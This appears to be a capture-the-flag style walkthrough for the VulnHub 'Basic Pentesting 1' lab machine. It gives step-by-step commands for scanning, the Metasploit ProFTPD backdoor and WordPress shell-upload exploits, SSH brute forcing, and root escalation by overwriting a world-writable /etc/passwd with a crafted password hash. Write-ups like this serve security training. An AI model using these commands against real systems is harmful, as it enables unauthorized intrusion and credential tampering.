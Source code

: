 <h1 align="center">
  <a href="https://www.vulnhub.com/entry/basic-pentesting-1,216/">Basic_Pentesting1</a>
</h1>

## Port Scanning

```bash
$ nmap -A <target_ip>

Other Scanning Examples:
$ nmap -A -p- -T4 <target_ip>
$ nmap -sV -sC <target_ip>
```

## Open Ports

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/OpenPorts.png)

---

## Exploiting port 21 ProFTPD 1.3.3c

```bash
$ msfconsole
$ search ProFTPD
$ use exploit/unix/ftp/proftpd_133c_backdoor
$ set rhosts <target_ip>
$ set rport 21
$ run/exploit
```

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/Proftpd.png)

---

## User enumeration
We had found that the users are marlinspike and root from previous ftp exploit.

## Bruteforcing into port 22 (SSH) using hydra trying default credentials
```bash
$ hydra -l marlinspike -P <wordlist> ssh://target_ip -V

Password Found for user(marlinspike):
[22][ssh] host: 192.168.1.70   login: marlinspike   password: marlinspike
```

## Privilege Escalation
> find / -type f -perm -u=s 2>/dev/null

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/PrivEsc1.png)


After researching, we find that the user(marlinspike) can use all the commands.

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/PrivEsc0.png)

Now, let's try abusing binary `sudo su` and enter password of the user `marlinspike` and boy we are in :V

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/PrivEsc-Success.png)

---

## Directory Enumeration for port 80 (http-server)

> gobuster dir -u <target_url> -w <path-to-wordlist> 


![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/Directory-Enum.png)

We found /secret directory. Let's check in the browser.
We can see a wordpress blog running on the the server.


We can see that the webpage is not properly loading. 
So let's add the vtcsec into our /etc/hosts file and check how the webpage looks afterward.

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/Hosts.png)
![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/Wordpress.png)


Now, let's go to wp-admin as it is the admin panel for wordpress sites and
try default login credentials i.e admin/admin we're in.
If the default credentials wouldn't have worked we probably would have needed to
bruteforce into the admin panel via burpsuite intruder or hydra or by using
any bruteforcing tools you prefer.

Now, let's try to gain access with wordpress exploit via metasploit.
```bash
$ msfconsole
$ search wp_admin
$ use exploit/unix/webapp/wp_admin_shell_upload

set every options that is needed for the exploit.
```

We can see that we got ourselves a meterpreter session.
![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/reverse_shell.png)



## Privilege Escalation
To check for any potential misconfigurations that could lead to privilege escalation, a good script to use is the unix-privesc-check script from [pentestmonkey](https://github.com/pentestmonkey/unix-privesc-check)


This can be uploaded from the meterpreter session by running the following command:
> upload /usr/bin/unix-privesc-check /tmp/unix-privesc-check


After we upload the file to the server we then can execute the file:
```bash
$ shell
$ cd /tmp
$ chmod +x unix-privesc-check
```


The author of unix-privesc-check recommends to grep the output for WARNING, which will show any potential misconfigurations. This can be run as one single command:
> ./unix-privesc-check standard | grep WARNING


We can see `WARNING: /etc/passwd is a critical config file. World write is set for /etc/passwd` after executing the unix-privesc-check.

This means that we can write into the /etc/passwd file. So, let's download the file into our host machine by getting back into our meterpreter shell and executing:
> download /etc/passwd <path-where-to-save>


Now, from a local terminal, we can use openssl to generate a new hashed password:
> openssl passwd -1 lol

We get our hashed password i.e `$1$X5FkPmLQ$h0yILWHDiUeWUeezpmWU20`
Now, open the passwd file we downloaded before and replace x after root like:
![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/Hashed.png)


Now, all we need to do is upload the modified passwd file from our host to target server
	using:
> upload <path-where-you-saved> /etc/passwd

To make the shell interactive:
> python -c 'import pty; pty.spawn("/bin/bash")'

Finally, we can switch to root's account. 
```bash
$ su root
Password: lol
```
![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/final-root-access.png)


<a href="https://github.com/ninchy0">ninchy0</a>